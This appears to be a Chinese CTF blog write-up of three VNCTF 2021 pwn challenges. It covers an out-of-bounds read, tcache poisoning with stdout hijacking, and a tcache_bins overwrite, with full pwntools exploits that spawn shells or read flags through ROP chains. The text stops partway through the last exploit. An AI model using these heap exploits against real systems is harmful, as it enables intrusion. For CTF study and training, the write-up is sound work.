<!--yml
category: 未分类
date: 2022-04-26 14:29:51
-->

# 【CTF题解NO.00007】VNCTF2021 - pwn - write up by arttnba3_arttnba3的博客-CSDN博客

> 来源：[https://blog.csdn.net/arttnba3/article/details/115447496](https://blog.csdn.net/arttnba3/article/details/115447496)

### 【CTF题解NO.00007】VNCTF2021 - pwn - write up by arttnba3

# VNCTF2021 - Pwn

太棒了，我逐渐理解一切.jpg

## [VNCTF 2021]White_Give_Flag - read out of bounds

惯例的 `checksec` ，保护全开

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-TNWJNScE-1617625416115)(https://i.loli.net/2021/04/01/nwjrFpHgQ1zJcEa.png)]

分析主函数逻辑可以发现仅提供了分配、释放、编辑堆块的功能，以及一个无用的打印随机数的功能，并不存在明显漏洞


在开头的初始化过程中会随机malloc数次并读入flag内容，其中最后一次并没有清空堆块，flag内容存在于 `[0x300, 0x500]` 大小的某个堆块中



在主函数中读入选项时有个 bug ：返回值并非读入的数据通过atoi转成的数值，而是read() 的返回值，即读入的长度

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-r0Bi3FWF-1617625416128)(https://i.loli.net/2021/04/01/ArZkfW4yzwxiDaH.png)]

而读入选项后会打印 `qword_202120`数组中的字符串，我们不难想到的是：若是我们直接发送 `EOF` ，则 read() 会返回 `0`，我们即可向前越界读，这里可以使用 pwntools 库中的 `shutdown_raw()` 函数完成



前面刚好是储存堆块的数组，刚好可以读到第四个堆块



那么我们只需要不断尝试分配到一个存在 flag 的堆块后打印即可

构造exp如下：

```
from pwn import *
global p

def cmd(command:int):
    p.recvuntil(b"choice:")
    p.sendline(command * b'a')

def new(size:int):
    cmd(0)
    p.recvuntil(b"size:")
    p.sendline(str(size).encode())

def free(index:int):
    cmd(2)
    p.recvuntil(b"index:")
    p.sendline(str(index).encode())

def edit(index:int, content):
    cmd(3)
    p.recvuntil(b"index:")
    p.sendline(str(index).encode())
    p.recvuntil(b"Content:")
    p.send(content)

def exp(hit):
    for i in range(3):
        new(0x10)
    new(0x300 + hit * 0x10)
    edit(3, 'arttnba3arttnba4')
    p.recvuntil('choice:')
    p.shutdown_raw('send')
    s = p.recv()
    log.info(s)
    if b'{' in s or b'}' in s:
        exit()

if __name__ == '__main__':
    i = 0
    count = 0
    while True:
        try:
            print('try time: ' + str(count))
            print('try: ' + str(i) + ' now')
            p = remote("node4.buuoj.cn",39123)
            exp(i)
            p.close()
            i += 1
            i %= 0x20
            count += 1
        except Exception as e:
            log.failure('exception!')
            p.close()
            i += 1
            i %= 0x20
            count += 1 
```

运行即可获得flag

（都要给非酋爆傻了）



## [VNCTF 2021]ff - tcache poisoning + IO_FILE hijack

惯例的 `checksec` ，保护全开



拖入IDA进行分析

大致是有着分配、释放、打印、编辑堆块功能的程序，但是限制了只能编辑两次、打印一次，同时**一次只能操作一个堆块**


释放功能中没有清空，存在 UAF



但是libc 的版本为 `2.32` ，那么我们需要用掉唯一的一次打印的机会泄露堆基址才能通过 double free 进行任意地址写

而我们还需要想办法泄露 libc 基址，但是我们只能分配 `0x80` 的堆块，即使劫持了 tcache管理器 后所释放的堆块也只能够进入fastbin中（而且我们一次只能操作一个堆块



考虑到 tcache管理器 本身便是一个 `0x291`的堆块，我们可以劫持之后改对应计数为7后free掉，送入 unsorted bin 中，之后切割这个大chunk，利用残留指针 大概1/16 的几率可以爆破到 stdout 附近，劫持 stdout 以泄露 libc 基址，最后改 `__free_hook` 为 system 函数后释放一个内容为 `/bin/sh`的 chunk 即可 get shell

> 非酋的话可能要爆破很久…

故构造exp如下：

```
from pwn import*

global p
libc = ELF('./libc.so.6')

def cmd(command:int):
    p.recvuntil(b">>")
    p.sendline(str(command).encode())

def new(size:int, content):
    cmd(1)
    p.recvuntil(b"Size:")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content:")
    p.send(content)

def free():
    cmd(2)

def show():
    cmd(3)

def edit(content):
    cmd(5)
    p.recvuntil(b"Content:")
    p.send(content)

def exp(hit_byte):
    new(0x80, b'arttnba3')
    free()
    show()

    heap_leak = u64(p.recv(6).ljust(8, b'\x00'))
    heap_base = heap_leak * 0x1000
    log.success('heap base: ' + hex(heap_base))

    edit(b'arttnba3arttnba4')
    free()
    edit(p64(heap_leak ^ (heap_base + 0x10)))
    new(0x80, b'arttnba3')
    new(0x80, b'\x00\x00' * (0xe + 0x10 + 9) + b'\x07\x00')
    free()

    new(0x40, (b'\x00\x00' * 3 + b'\x01\x00' + b'\x00\x00' * 2 + b'\x01\x00').ljust(0x70, b'\x00')) 
    new(0x30, b'\x00'.ljust(0x30, b'\x00'))
    new(0x10, p64(0) + b'\xc0' + p8(hit_byte * 0x10 + 6)) 
    new(0x40, p64(0xfbad1800) + p64(0) * 3 + b'\x00')

    libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x1e4744
    new(0x10, p64(libc_base + libc.sym['__free_hook']))
    new(0x70, p64(libc_base + libc.sym['system']))
    new(0x10, b'/bin/sh\x00')
    free()
    p.interactive()

if __name__ == '__main__':
    count = 1
    i = 0
    while True:
        try:
            print('the no.' + str(count) + ' try')
            print(b'try: ' + b'\xc0' + p8(i * 0x10 + 6))
            p = remote('node3.buuoj.cn', 26018)
            exp(i)
        except Exception as e:
            print(e)
            p.close()
            i = i + 1
            count = count + 1
            i = i % 16
            continue 
```

运行即可get shell



> ### glibc2.32下tcache新增的保护
> 
> 一开始题目给出的libc版本为2.32，笔者原以为和libc2.31应当没有太大区别，故最初想的解法便是 1/16 的几率爆破到tcache struct，exp如下：
> 
> ```
> from pwn import*
> 
> global p
> libc = ELF('./libc.so.6')
> 
> hit = [b'\x00', b'\x10', b'\x20', b'\x30', b'\x40', b'\x50', b'\x60', b'\x70', b'\x80', b'\x90', b'\xa0', b'\xb0', b'\xc0', b'\xd0', b'\xe0', b'\xf0']
> 
> def cmd(command:int):
>  p.recvuntil(b">>")
>  p.sendline(str(command).encode())
> 
> def new(size:int, content):
>  cmd(1)
>  p.recvuntil(b"Size:")
>  p.sendline(str(size).encode())
>  p.recvuntil(b"Content:")
>  p.send(content)
> 
> def free():
>  cmd(2)
> 
> def show():
>  cmd(3)
> 
> def edit(content):
>  cmd(5)
>  p.recvuntil(b"Content:")
>  p.send(content)
> 
> def exp(hit_byte):
>  new(0x80, b'arttnba3')
>  free()
>  edit(b'arttnba3' * 2)
>  free()
>  
>  edit(b'\x10' + hit_byte)
>  new(0x80, b'arttnba3')
>  new(0x80, b'\x00\x00' * (0xe + 0x10 + 9) + b'\x07\x00')
>  free()
>  show()
>  main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 96
>  __malloc_hook = main_arena - 0x10
>  libc_base = __malloc_hook - libc.sym['__malloc_hook']
>  log.success("[+] libc_base: " + hex(libc_base))
>  new(0x40, (b'\x01\x00' * 2).ljust(0x40, b'\x00'))
>  new(0x40, (b'\x01\x00' * 2).ljust(0x30, b'\x00') + p64(libc_base + libc.sym['__free_hook']) + p64(libc_base + libc.sym['__free_hook'] + 0x10))
>  new(0x10, p64(libc_base + libc.sym['system']))
>  new(0x20, b'/bin/sh\x00')
>  free()
>  p.interactive()
> 
> if __name__ == '__main__':
>  count = 1
>  i = 0
>  while True:
>      try:
>          print('the no.' + str(count) + 'try')
>          print(b'try: ' + hit[i])
>          p = remote('node3.buuoj.cn', 26454)
>          exp(hit[i])
>      except Exception as e:
>          p.close()
>          i = i + 1
>          count = count + 1
>          i = i % 16
>          continue 
> ```
> 
> 1/16 的几率，本地很快就通了，但是打远程一直爆破不出来，出现了两种报错信息：
> 
> 出现这两种报错信息的原因都是 **堆块指针未对齐** ，笔者百思不得其解，只好将libc2.32的源码下载下来看看…
> 
> #### glibc 2.31下的 tcache_put 与 tcache_get
> 
> 我们先来看看在 `glibc 2.31` 中是如何操作 tcache 中的堆块的：
> 
> ```
>  static __always_inline void
> tcache_put (mchunkptr chunk, size_t tc_idx)
> {
> tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
> 
> e->key = tcache;
> 
> e->next = tcache->entries[tc_idx];
> tcache->entries[tc_idx] = e;
> ++(tcache->counts[tc_idx]);
> }
> 
> static __always_inline void *
> tcache_get (size_t tc_idx)
> {
> tcache_entry *e = tcache->entries[tc_idx];
> tcache->entries[tc_idx] = e->next;
> --(tcache->counts[tc_idx]);
> e->key = NULL;
> return (void *) e;
> } 
> ```
> 
> 在 `glibc2.31` 下，堆管理器在 `取/放` chunk时不会检测 tcache 中的堆块地址的合法性，也没有任何的诸如 `加密/解密` 等一系列的防护手段，完全就是一个裸的单向链表结构，利用起来易如反掌，只需要一个诸如 `UAF` 之类的漏洞就可以直接进行任意地址写
> 
> #### glibc 2.32下的 tcache_put 与 tcache_get
> 
> 但是在 `glibc 2.32` 中引入了一个简单的异或加密机制：
> 
> ```
>  static __always_inline void
> tcache_put (mchunkptr chunk, size_t tc_idx)
> {
> tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
> 
> e->key = tcache;
> 
> e->next = PROTECT_PTR (&e->next, tcache->entries[tc_idx]);
> tcache->entries[tc_idx] = e;
> ++(tcache->counts[tc_idx]);
> }
> 
> static __always_inline void *
> tcache_get (size_t tc_idx)
> {
> tcache_entry *e = tcache->entries[tc_idx];
> if (__glibc_unlikely (!aligned_OK (e)))
>  malloc_printerr ("malloc(): unaligned tcache chunk detected");
> tcache->entries[tc_idx] = REVEAL_PTR (e->next);
> --(tcache->counts[tc_idx]);
> e->key = NULL;
> return (void *) e;
> } 
> ```
> 
> 一、新增了在从 tcache 中取出 chunk 时会检测 chunk 地址是否对齐的保护
> 
> 二、引入了两个新的宏对 tcache 中`存/取` chunk 的操作进行了一层保护，即在 new chunk 链接 tcache 中 old chunk 时会进行一次异或运算，代码如下：
> 
> ```
> #define PROTECT_PTR(pos, ptr) \
> ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
> #define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr) 
> ```
> 
> 即 **tcache_entry->next中存放的chunk地址为与自身地址进行异或运算后所得到的值**， 这就要求我们在利用 tcache_entry 进行任意地址写之前 **需要我们提前泄漏出相应 chunk 的地址，即我们需要提前获得堆基址后才能进行任意地址写**，这给传统的利用方式无疑是增加了不少的难度
> 
> 不过若是我们能够直接控制 `tcache struct`，则仍然可以直接进行任意地址写，这是因为在 tcache struct 中存放的仍是未经异或运算的原始 chunk 地址
> 
> #### glibc2.32下堆基址的新泄露方式
> 
> 虽然这种简单的异或加密方式给 tcache 提高了不少的安全系数，但是同样也提供给我们新的泄露堆基址的途径
> 
> 我们不难观察到，在 tcache 的一个 entry 中放入第一个 chunk 时，其同样会对该 entry 中的 “chunk” （NULL）进行异或运算后写入到将放入 tcache 中的 chunk 的 `fd` 字段，若是我们能够打印该 free chunk 的fd字段，**便能够直接获得未经异或运算的堆上相关地址**
> 
> [外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-YCV9b0cv-1617625416141)(https://i.loli.net/2021/03/28/cYVZeEbOkf17xhP.png)]
> 
> 
> 
> #### what’s more?
> 
> 在 `fastbin` 中似乎也引入了这个机制，但是在普通的 `bins` 数组中似乎并未引入这个机制…？（研究ing

## [VNCTF 2021]LittleRedFlower

惯例的 `checksec` ，保护全开



拖入 IDA 进行分析

开头 ptctl 限制了系统调用，应该是只能 orw 了，同时还白给了 libc 基址



可以往任意地址写1字节



接下来是允许在预先分配的一个 0x200 的 chunk 的任意偏移处写 8 字节



最后是允许分配一个特点大小的 chunk ，向其写入内容后该 chunk 会被释放，程序执行流结束



考虑到最开始的 chunk 与 tcache struct 是紧挨着的，若是我们能够想办法 “让这个 chunk 的特定偏移处成为 tcache struct 的一部分” ，那么在该偏移的位置写 8 字节时便等同于我们向 tcache struct 内放入了一个 fake chunk，接下来的分配就能够完成任意地址写了

阅读 glibc 源码，我们可以发现 tcache 取 chunk 的逻辑是以 `mp_.tcache_bins` 作为索引的上限：

```
 if (tc_idx < mp_.tcache_bins
      && tcache
      && tcache->counts[tc_idx] > 0)
    {
      return tcache_get (tc_idx);
    } 
```

而结构体 `mp_` 为静态变量，毫无疑问位于 libc 当中：

```
static struct malloc_par mp_ =
{
  .top_pad = DEFAULT_TOP_PAD,
  .n_mmaps_max = DEFAULT_MMAP_MAX,
  .mmap_threshold = DEFAULT_MMAP_THRESHOLD,
  .trim_threshold = DEFAULT_TRIM_THRESHOLD,
#define NARENAS_FROM_NCORES(n) ((n) * (sizeof (long) == 4 ? 2 : 8))
  .arena_test = NARENAS_FROM_NCORES (1)
#if USE_TCACHE
  ,
  .tcache_count = TCACHE_FILL_COUNT,
  .tcache_bins = TCACHE_MAX_BINS,
  .tcache_max_bytes = tidx2usize (TCACHE_MAX_BINS-1),
  .tcache_unsorted_limit = 0 
#endif
}; 
```

我们只需要在开头的任意地址写 1 字节时修改 `mp_tcache_bins` 即可扩大 tcache 索引，接下来便是劫持 `__free_hook` 进行 orw 的常规流程

寻找 `mp_` 的偏移可以通过逆向 libc 的方式完成：



可以使用通用 gadget + setcontext 完成栈迁移的过程



最终的 exp 如下：

```
from pwn import *
context.arch = 'amd64'
context.log_level = 'debug'
p = remote('node3.buuoj.cn', 29644) 
libc = ELF('./libc.so.6') 

def exp():
    p.recvuntil(b"GIFT: ")
    stdout_addr = int(p.recvuntil(b'\n', drop = True), 16)
    log.info('stdout addr leak: ' + hex(stdout_addr))
    libc_base = stdout_addr - libc.sym['_IO_2_1_stdout_']
    log.success('libc base: ' + hex(libc_base))

    pop_rdi_ret = libc_base + libc.search(asm('pop rdi ; ret')).__next__()
    pop_rsi_ret = libc_base + libc.search(asm('pop rsi ; ret')).__next__()
    pop_rdx_pop_rbx_ret = libc_base + libc.search(asm('pop rdx ; pop rbx ; ret')).__next__()

    fake_frame = SigreturnFrame()
    fake_frame['uc_stack.ss_size'] = libc_base + libc.sym['setcontext'] + 61
    fake_frame.rdi = 0
    fake_frame.rsi = libc_base + libc.sym['__free_hook']
    fake_frame.rdx = 0x200
    fake_frame.rsp = libc_base + libc.sym['__free_hook'] + 8
    fake_frame.rip = libc_base + libc.sym['read']

    flag_addr = libc_base + libc.sym['__free_hook']
    orw = b'./flag\x00'.ljust(8, b'\x00')
    orw += p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(4) + p64(libc_base + libc.sym['open'])
    orw += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x100) + p64(0) + p64(libc_base + libc.sym['read'])
    orw += p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x100) + p64(0) + p64(libc_base + libc.sym['write'])

